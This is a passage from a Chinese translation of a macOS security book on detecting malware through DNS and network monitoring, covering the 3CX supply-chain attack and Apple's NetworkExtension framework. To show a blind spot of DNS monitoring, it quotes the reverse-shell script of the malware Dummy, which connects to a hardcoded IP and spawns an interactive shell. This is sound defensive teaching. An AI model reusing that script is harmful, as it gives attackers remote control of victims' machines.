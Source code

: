 图 7-1：iWebUpdater 解析其更新服务器 IP 地址的网络抓包

尽管防病毒引擎最初没有将该二进制文件标记为恶意，但 *iwebservicescloud.com* 域名有着长期解析到与恶意行为者相关的 IP 地址的历史。如果我们能够将 DNS 数据追溯到 iWebUpdate 二进制文件（我稍后将展示如何做到这一点），我们就可以发现它来自一个未签名的、持久安装的启动代理。可疑！

作为 DNS 监控强大功能的另一个例子，我们再来仔细看看 3CX 供应链攻击。供应链攻击因其难以检测而臭名昭著，而在这个案例中，苹果无意中对被篡改的 3CX 安装程序进行了公证。尽管传统的防病毒软件最初没有将该应用标记为恶意，但利用 DNS 监控功能的安全工具迅速发现了异常，并开始警告用户，随后用户涌向 3CX 论坛，发布诸如“我收到了一个警告……告诉我 3CX 桌面应用程序正在尝试与一个‘高度可疑’的域进行通信，可能是由攻击者控制的。”^(3)

是否有其他启发式方法能够检测到该攻击？可能有，但即便是苹果的公证系统也未能发现它。幸运的是，DNS 监控工具提供了一种方式，能够检测到被篡改的应用程序正在与一个新的、异常的域进行通信，而补救措施很快就限制了这一本可能会造成巨大影响和广泛传播的网络安全事件。

当然，DNS 监控也有其缺点。最明显的是，它无法帮助你检测那些不解析域名的恶意软件，例如仅仅打开监听套接字进行远程连接的简单后门，或者那些直接连接到 IP 地址的恶意软件。虽然这种恶意软件比较少见，但偶尔会遇到。例如，前面提到的简单 Mac 恶意软件 Dummy，会创建一个反向 shell 连接到硬编码的 IP 地址：

```
#!/bin/bash
while :
do
    python -c
        'import socket,subprocess,os;
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
        s.connect(("185.243.115.230",1337));
        os.dup2(s.fileno(),0);
        os.dup2(s.fileno(),1);
        os.dup2(s.fileno(),2);
        p=subprocess.call(["/bin/sh","-i"]);'
    sleep 5
done 
```

直接连接到 IP 地址不会生成任何 DNS 流量，因此 DNS 监控无法检测到 Dummy。在这种情况下，你需要一个更全面的*过滤数据提供者*，它能够监控所有流量。本章稍后我会展示如何使用相同的框架和许多与构建简单 DNS 监控工具相同的 API 来构建这样的工具。

#### 使用 NetworkExtension 框架

在 macOS 上监控网络流量曾经需要编写网络内核扩展。苹果随后弃用了这种方法，以及所有第三方内核扩展，并引入了*系统扩展*来替代它。系统扩展在用户模式下运行，更加安全，并提供了一个现代化的机制来扩展或增强 macOS 功能。^(4)

为了扩展核心网络功能，苹果还引入了用户模式的*NetworkExtension*框架。^(5) 通过构建利用该框架的系统扩展，你可以实现与现已弃用的网络内核扩展相同的功能，但这是从用户模式实现的。

系统扩展功能强大，因此苹果要求你在部署扩展之前满足若干先决条件。^(6)

+   你必须将扩展打包在应用程序包的*Contents/Library/SystemExtensions/* 目录中。

+   包含扩展的应用程序必须获得*com.apple.developer.system-extension.install* 权限，并且你必须使用一个配置文件来构建它，这个配置文件提供了在运行时授权该权限的方法。

+   包含扩展的应用程序必须使用 Apple 开发者 ID 签名，并且需要进行公证。

+   包含扩展的应用程序必须安装在合适的*应用程序*目录中。

+   在非托管环境中，macOS 需要明确的用户批准才能加载任何系统扩展。

我将在第十三章中解释如何满足这些要求。正如我在本书的介绍中提到的，你可以关闭系统完整性保护（SIP）和 Apple 移动文件完整性（AMFI）来规避其中的一些要求。然而，禁用这些保护会显著降低系统的整体安全性，因此我建议仅在虚拟机中或专门用于开发或测试的系统上这样做。

接下来，我将简要介绍如何以编程方式安装和加载系统扩展，然后使用*NetworkExtension*框架监控 DNS 流量。此处提供了相关的代码片段，您可以在 Objective-See 的开源*DNSMonitor*项目中找到完整的代码，详细内容见第十三章。^(7)
